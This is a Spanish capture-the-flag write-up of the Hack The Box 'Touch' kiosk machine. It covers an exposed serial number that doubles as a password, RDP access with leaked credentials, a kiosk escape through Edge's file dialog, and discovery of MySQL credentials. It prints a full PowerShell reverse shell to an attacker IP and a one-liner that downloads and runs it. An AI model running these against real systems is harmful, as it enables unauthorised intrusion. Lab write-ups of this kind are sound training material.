# HTB Touch — Writeup técnico (Kiosk breakout → SYSTEM vía MySQL UDF)

**Objetivo:** `10.129.163.145` (Windows, host `KIOSK-042`)
**Atacante (VPN tun0):** `10.10.16.77`
**Credenciales entregadas:** `Jenny Crawford / KS7X2M`
**Dificultad:** Fácil
**Resultado:**
- `user.txt` → `1416fd69****`
- `root.txt` → `52c311d2****`

> **Evidencias visuales.** Las capturas citadas en este documento se entregan en la carpeta **`screenshots/`** que acompaña al writeup. Cada paso relevante incluye una imagen en la forma `` seguida de una **leyenda** que indica **qué evidencia aporta** y **qué pista de la metodología aporta cada captura** (por ejemplo, que la sesión RDP es real, que los diálogos son del objetivo o que la salida de comandos es auténtica). Todas las capturas provienen de la ejecución real (cliente RDP y consola de post-explotación); no son reconstrucciones.
>
> **Sobre flags y credenciales (versión pública).** HTB genera `user.txt`/`root.txt` **por instancia**: el valor válido es el del despliegue activo en el momento de la explotación. Por política de divulgación responsable, en esta versión pública **las flags, contraseñas, serial y nombre de usuario han sido enmascarados** en el texto (p. ej. `1416fd69****`, `K!0sk****`, `NX-DH-****-****`) y **redactados en las capturas** correspondientes. Los enmascaramientos son deliberados y no afectan a la reproducibilidad del procedimiento.

---

## 0. Resumen ejecutivo

La máquina es un kiosco ficticio de aerolínea ("HTB Airways") sobre Windows. La cadena de compromiso tiene cuatro etapas:

1. **Enumeración web (8443):** un portal de gestión "Nexion DeviceHub" expone sin autenticación el número de serie del dispositivo en `/api/status`. Ese serial **se reutiliza como contraseña de login** ("serial-as-password"), lo que permite entrar al dashboard.
2. **Fuga de credenciales → acceso remoto:** el dashboard revela credenciales de la cuenta local restrictiva `Kios****`. La cuenta **no** puede usar WinRM (rechazo por política), pero **sí** RDP, obteniendo sesión gráfica en el kiosco.
3. **Kiosk breakout:** apagando por API los dispositivos (escáner de pasaportes e impresora) se fuerza un **error de la aplicación de kiosco**. El diálogo de error incluye un enlace de soporte que abre Edge; desde Edge, `Ctrl+O` abre el diálogo nativo de archivos (un Explorer completo) y permite ejecutar `cmd.exe`. De ahí se obtiene una reverse shell como `Kios****` → `user.txt`.
4. **Privesc local:** enumerando `C:\ProgramData` se hallan las credenciales de `root` de MySQL en un `.bat`. El servicio **MySQL80 corre como `LocalSystem`** y el directorio de plugins (`C:\MySQL\lib\plugin`) tiene permiso **Modify para Authenticated Users**. Subiendo una DLL UDF y creando `sys_eval()` se ejecuta código como **`NT AUTHORITY\SYSTEM`** → `root.txt`.

Dos controles mal configurados concentran el riesgo: **un secreto (serial) tratado como credencial** y **permisos de escritura para usuarios no privilegiados en el directorio de plugins de un servicio SYSTEM**.

---

## 1. Reconocimiento

Comprobación inicial de conectividad (reenvío de ICMP correcto, TTL 127 → Windows):

```bash
ping -c3 10.129.163.145
```

Escaneo con scripts y detección de versión:

```bash
nmap -sC -sV -oN nmap_services.txt 10.129.163.145
```

**Decisión y motivo (importante):** el primer escaneo con detección de versión **no devolvió puertos relevantes** (la mayoría aparecían filtrados / sin respuesta). Esto no se dio por sentado como "máquina caída". Un `-sV -sC` solo cubre los **1000 puertos más comunes**; si el servicio interesante está en un puerto alto no estándar, no aparece. Por eso se lanzó un escaneo de **todos los puertos**:

```bash
nmap -p- -T4 --min-rate 1000 -oN nmap_allports.txt 10.129.163.145
```

Resultado:

| Puerto | Servicio | Comentario |
|-------:|----------|------------|
| 135/tcp | msrpc | RPC de Windows |
| 3389/tcp | ms-wbt-server | **RDP** (Terminal Services) |
| 5985/tcp | wsman | **WinRM** (HTTPAPI) |
| 8443/tcp | https-alt | **Nexion DeviceHub — Login** (app web) |

**Lectura:** tener RDP + WinRM + un portal de gestión a la vez sugiere el patrón clásico de encadenar servicios: el portal entrega datos/credenciales que se reutilizan contra RDP/WinRM. La hipótesis de trabajo fue "el portal filtra credenciales".

---

## 2. Enumeración web en 8443 (Nexion DeviceHub)

`https://10.129.163.145:8443` muestra un login que pide una "contraseña de dispositivo" que no tenemos.

**Descubrimiento de contenido.** El primer `ffuf` devolvió ruido: prácticamente **todo respondía 302** (comportamiento wildcard / redirección genérica a `/login`). La clave metodológica es **filtrar por código**: se descartan los 302 para que aflore lo que realmente existe.

```bash
ffuf -u https://10.129.163.145:8443/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 302
# api        [Status: 403]
# login      [Status: 200]
# favicon.ico[Status: 200]

ffuf -u https://10.129.163.145:8443/api/FUZZ -w /usr/share/wordlists/dirb/common.txt -fc 302
# status     [Status: 200]
# scan       [Status: 405]   (existe, pero GET no es el verbo)
```

**Razonamiento:** un `403` en `/api` (y no `404`) indica que el recurso existe pero está "gateado"; eso justifica fuzzear **un nivel más profundo**, donde aparece `/api/status`.

**Fuga de información no autenticada:**

```bash
curl -s https://10.129.163.145:8443/api/status
# {"device":"Nexion DeviceHub DH-100","serial":"NX-DH-****-****",
#  "firmware":"1.4.2","status":"online","uptime":33838}
```

El serial `NX-DH-****-****` **es también la contraseña del portal**. Ese es el fallo de diseño: usar un identificador de dispositivo como secreto. Introduciendo el serial en `/login` entramos al dashboard.

---

## 3. Dashboard: fuga de credenciales del kiosco

El dashboard lista dos dispositivos gestionados y permite encenderlos/apagarlos remotamente:

- **Passport Scanner**
- **Boarding Pass Printer**

Además expone, almacenadas, las credenciales del hardware del kiosco:

```
Kios**** : K!0sk****
```

`Kios****` es una cuenta local restringida, típica de kioscos (un operador físico solo debe poder usar una única aplicación).

---

## 4. Validación de credenciales y acceso remoto

Prueba de reutilización contra los servicios expuestos.

**WinRM (5985):**

```bash
nxc winrm 10.129.163.145 -u Kios**** -p 'K!0sk****'
# [-] KIOSK-042\Kios****:K!0sk****   -> RECHAZADO
```

**Razonamiento:** el rechazo aquí **no implica contraseña incorrecta**. WinRM suele permitir solo a administradores o a un grupo concreto; una cuenta local común es rechazada por **política**, no por credencial. Se confirma la hipótesis probando otro canal.

**RDP (3389) vía NetExec:**

```bash
nxc rdp 10.129.163.145 -u Kios**** -p 'K!0sk****'
# [-] ... (Server refused our connection request! Reason: SSL_NOT_ALLOWED_BY_SERVER)
```

Falla por **negociación TLS/NLA**, no por credencial. Se cambia a un cliente RDP completo:

```bash
xfreerdp3 /v:10.129.163.145 /u:Kios**** /p:'K!0sk****' /cert:ignore /dynamic-resolution +clipboard
```

Login **correcto**: sesión gráfica como `Kios****`. Queda demostrado que la contraseña era válida y que el rechazo de WinRM era una restricción de ese servicio.

**Evidencia visual — sesión RDP real:**


*Fig. 4.1 — Escritorio del kiosco tras autenticarse por RDP. En la parte superior se ve la aplicación de kiosco "HTB AIRWAYS" (Terminal 4 · Gate 87 · Kiosk #042 · System Online) con los flujos **SELF CHECK-IN** y **STAFF LOGIN**. **Pista:** que es una sesión gráfica interactiva genuina de Windows (no una mera validación de credenciales), confirmada por la ventana del cliente RDP y el entorno de escritorio del objetivo.*


*Fig. 4.2 — Flujo "SELF CHECK-IN" del kiosco: contexto del funcionamiento legítimo antes de forzar el error de la etapa 5.*

---

## 5. Kiosk breakout (romper la restricción del kiosco)

La aplicación de kiosco ofrece dos flujos, ambos imposibles de completar por medios legítimos:

- **Self check-in:** el primer paso acepta `Jenny Crawford / KS7X2M`, pero el segundo exige **escanear un pasaporte** (acción física).
- **Staff login:** exige **escanear una tarjeta de empleado** (hardware del que no disponemos).

**Idea del breakout:** si no se puede completar el flujo, se **provoca un error controlado**. Los manejadores de error de aplicaciones de kiosco suelen lanzar un **navegador embebido** (Edge/IE) o un diálogo de archivos, que a su vez es una puerta lateral al sistema de archivos.

**Observación clave:** desde el dashboard (8443) podemos **apagar** el Passport Scanner y la Boarding Pass Printer. Si el kiosco necesita esos dispositivos para "escanear", apagarlos debe hacer **fallar** el paso de escaneo.

Pasos ejecutados:

1. En DeviceHub (8443), **apagar** Passport Scanner y Boarding Pass Printer.
2. En el kiosco: **Staff login → Scan badge**.
3. El escáner está offline → aparece un **diálogo de error** ("Nexion DocReader SR-4200 — stopped responding / SCN-ERR-4092") con un **enlace de soporte**.
4. **Clic en el enlace** → abre **Microsoft Edge** (`support.nexionsystems.com`).
5. En Edge, `Ctrl+O` → **diálogo nativo "Abrir archivo"** (es un Explorer completo; aquí muere el aislamiento del kiosco).
6. Navegar a `C:\Windows\System32\` y ejecutar **`cmd.exe`** → se obtiene un **Command Prompt** dentro de la sesión del kiosco.

Esta es la técnica canónica de escape: *provocar error → el handler lanza un navegador completo → el diálogo nativo de archivos es una puerta trasera al sistema de archivos → ejecutar `cmd.exe`*.

**Secuencia de evidencias visuales del breakout:**


*Fig. 5.1 — "Staff Authentication — Place your staff badge face-down on the scanner / SCAN BADGE". Es el paso que exige hardware físico y que no puede completarse de forma legítima.*


*Fig. 5.2 — Tras apagar el Passport Scanner por API (DeviceHub), el paso de escaneo falla: aparece "Scanner offline / TRY AGAIN". La ausencia del dispositivo obliga a la aplicación a pasar por su manejo de errores.*


*Fig. 5.3 — Diálogo de error del kiosco: "Nexion DocReader SR-4200 has stopped responding — Error Code: SCN-ERR-4092 — Device: NX-SR-2024-0042". **Pista:** el **enlace `https://support.nexionsystems.com/...`** en el texto del error; es el punto de fuga hacia el navegador.*


*Fig. 5.4 — Al pulsar el enlace del diálogo se abre **Microsoft Edge** apuntando a `support.nexionsystems.com/docreader/troubleshoot`. El navegador completo es la puerta lateral que rompe el aislamiento del kiosco.*


*Fig. 5.5 — `Ctrl+O` en Edge abre el **diálogo nativo de archivos de Windows** (un Explorer completo, con Desktop/Documents/Downloads, etc.). Aquí es donde muere el confinamiento del kiosco.*


*Fig. 5.6 — En el diálogo nativo se navega al sistema de archivos y se selecciona un ejecutable (p. ej. `cmd.exe`). **Pista:** que el diálogo es el de Windows (no un componente web), lo que permite alcanzar binarios del sistema.*


*Fig. 5.7 — Edge interpreta `C:\Windows\System32\cmd.exe` como una descarga y muestra la barra "cmd.exe — Open file"; al pulsarla se lanza el proceso.*


*Fig. 5.8 — **Command Prompt** en ejecución dentro de la sesión del kiosco (`C:\Users\Kios****\Downloads\cmd.exe`). **Pista:** la ventana `cmd.exe` real y su prompt, prueba de ejecución de código arbitrario en el objetivo.*

---

## 6. Reverse shell y `user.txt`

Con el Command Prompt en mano se preparó un reverse shell de PowerShell y se sirvió por HTTP:

```powershell
# rs.ps1 (en el atacante, servido por http.server en 10.10.16.77:8080)
$c = New-Object System.Net.Sockets.TCPClient('10.10.16.77',9001)
$s = $c.GetStream()
[byte[]]$b = 0..65535 | ForEach-Object { 0 }
while (($i = $s.Read($b,0,$b.Length)) -ne 0) {
    $d = (New-Object Text.ASCIIEncoding).GetString($b,0,$i)
    $r = (Invoke-Expression $d 2>&1 | Out-String) + "PS> "
    $e = (New-Object Text.ASCIIEncoding).GetBytes($r)
    $s.Write($e,0,$e.Length); $s.Flush()
}
$c.Close()
```

```bash
# Atacante
nc -lvnp 9001
```

Desde el `cmd.exe` del kiosco:

```cmd
powershell -nop -c "IEX (IWR http://10.10.16.77:8080/rs.ps1 -UseBasicParsing)"
```

Shell recibida como `kiosk-042\kios****`:

```powershell
whoami; hostname; type C:\Users\Kios****\Desktop\user.txt
# kiosk-042\kios****
# KIOSK-042
# 1416fd69****
```

**Evidencia visual:**


*Fig. 6.1 — `whoami` devuelve `kiosk-042\kios****`: confirmación del usuario efectivo del shell, en una consola `cmd.exe` sobre la sesión RDP.*


*Fig. 6.2 — `type C:\Users\Kios****\Desktop\user.txt` mostrando la flag de usuario. **Pista:** el prompt `C:\Users\Kios****\Downloads>` y que la ubicación de la flag corresponde al `user.txt` de la instancia activa. El valor de la flag aparece **enmascarado en el texto y redactado (censurado) en la captura** para esta versión pública.*

Este documento reproduce los comandos y las salidas relevantes del listener `nc -lvnp 9001`, con la flag enmascarada. El repositorio no adjunta un archivo independiente con la transcripción completa del listener; las capturas gráficas disponibles de esta etapa son las Figs. 6.1–6.2.

---

## 7. Enumeración post-explotación

Búsqueda de scripts/configuraciones con credenciales en `C:\ProgramData`:

```powershell
Get-ChildItem -Path C:\ProgramData -Recurse -Include *.bat,*.cmd,*.ps1 |
  Select-Object -ExpandProperty FullName
```

Archivos de interés: `C:\ProgramData\HTB Airways\refresh-dates.bat`, `C:\ProgramData\KioskStartup.bat`, `NexionPrinter.bat`, `htb-backend.bat`, `htb-frontend.bat`.

**Credenciales de MySQL en claro** en `refresh-dates.bat`:

```bat
C:\MySQL\bin\mysql.exe -u root -pHTB@i**** < "C:\ProgramData\HTB Airways\refresh-dates.sql" 2>nul
```

